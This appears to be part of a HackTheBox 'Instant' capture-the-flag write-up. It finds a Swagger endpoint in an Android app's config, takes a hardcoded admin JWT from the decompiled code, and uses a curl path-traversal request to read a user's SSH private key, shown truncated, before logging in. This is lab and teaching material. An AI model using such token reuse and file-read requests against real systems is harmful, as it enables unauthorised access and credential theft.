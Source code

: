 ## Finding Swagger

Once we have both the resources and the decompiled source code, we can move on with our enumeration. Let's start by going through the resources. Most of them are not important to us, but we can find an interesting one called `network_security_config.xml`. This file is usually used for configuring various security settings, like certificate pinning and enabling clear text traffic (see the [documentation](https://developer.android.com/privacy-and-security/security-config) for more info).

```bash
┌──(pshegger㉿suki)-[~/Documents/htb/instant]
└─$ cat instant/res/xml/network_security_config.xml
<?xml version="1.0" encoding="utf-8"?>
<network-security-config>
    <domain-config cleartextTrafficPermitted="true">
        <domain includeSubdomains="true">mywalletv1.instant.htb</domain>
        <domain includeSubdomains="true">swagger-ui.instant.htb</domain>
    </domain-config>
</network-security-config>
```

## Admin JWT

If we visit the Swagger page now, we will find a few endpoints, including `/api/v1/admin/read/log`. The documentation states that it can be used to read log files by specifying a file name and if it's not properly implemented, we might be able to use it for `LFI`. Unfortunately, if we try to call it, we will not be able to, since the endpoint needs authorization.

At this point, we need to go back to our decompiled application and look for something that'll grant us the required authorization. After some searching, we can find a class called `AdminActivities`, that has a method named `TestAdminAuthorization`. This method simply makes an HTTP call to a different admin endpoint, but more importantly for us, it contains a `JWT`. With the token in hand, we can try the above-mentioned endpoint to see if it's vulnerable to `LFI`.

```bash
┌──(pshegger㉿suki)-[~/Documents/htb/instant]
└─$ curl -H "Authorization:eyJhbG<SNIP>WZ6rYA" 'http://mywalletv1.instant.htb/api/v1/admin/read/log?log_file_name=../.ssh/id_rsa' | jq .
{
  "/home/shirohige/logs/../.ssh/id_rsa": [
    "-----BEGIN RSA PRIVATE KEY-----\n",
    "MIIEogIBAAKCAQEAsMV1q8D3iRAYlNsYfcukAuGCL/ix/3BDbnSmk/IXaPCQYiRM\n",
	# ...SNIP...
    "jlMjppbHYuLUHAjkucXrWrZyUCKHApwr3/VnZDFvWQx+5qd685E=\n",
    "-----END RSA PRIVATE KEY-----\n"
  ],
  "Status": 201
}
```

# User Flag

Once we have the SSH key, we can simply log in to the target and read the flag.
